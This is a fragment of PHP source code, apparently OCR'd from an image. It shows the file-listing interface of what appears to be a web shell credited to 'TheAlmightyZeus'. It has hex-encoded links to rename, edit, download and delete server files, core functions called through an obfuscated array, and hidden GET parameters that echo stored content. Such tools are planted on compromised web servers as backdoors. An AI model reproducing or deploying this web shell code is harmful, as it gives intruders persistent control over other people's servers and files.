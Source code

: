 						
						'
							:
								$j .= '<tr class="r">
							<td>
								<i class="far fa-file m"></i>&thinsp;
								<a class="ajx" href="?d='.hex($e).'&s='.hex($c).'">'.$c.'</a>
							</td>
							<td class="x">
								'.$s.'
							</td>
							<td class="x">
								<a class="ajx'.$o.'" href="?d='.hex($e).'&k='.hex($c).'">'.x("$d/$c").'</a>
							</td>
							<td class="x">
								<a class="ajx" href="?d='.hex($e).'&t='.hex($c).'">'.$GNJ[20]("Y-m-d H:i", $GNJ[21]("$d/$c")).'</a>
							</td>
							<td class="x">
								<a class="ajx" href="?d='.hex($e).'&r='.hex($c).'">R</a>
								<a class="ajx" href="?d='.hex($e).'&e='.hex($c).'">E</a>
								<a href="?d='.hex($e).'&g='.hex($c).'">G</a>
								'.$zi.'
								<a href="?d='.hex($e).'&x='.hex($c).'">D</a>
							</td>
						</tr>
						
						';

							}
						}
					}

						echo $h;
						echo $j;
						echo '</tbody>
						<tfoot>
							<tr>
								<th class="et">
									<a class="ajx" href="?d='.hex($e).'&y">REQUEST</a>
									<a href="?d='.hex($e).'&q">EXIT</a>
								</th>
								<th class="et" width="11%"></th>
								<th class="et" width="17%"></th>
								<th class="et" width="17%"></th>
								<th class="et" width="11%"></th>
							</tr>
					</tfoot>
				</table>';
					}
					?>

			</article>
			<footer class="x">
				&copy;TheAlmightyZeus
			</footer>
			<?php
			if(isset($_GET["1"])) {
				echo $f;
			}
			elseif(isset($_GET["0"])) {
				echo $g;
			}
			else {
				NULL;
			}
			?>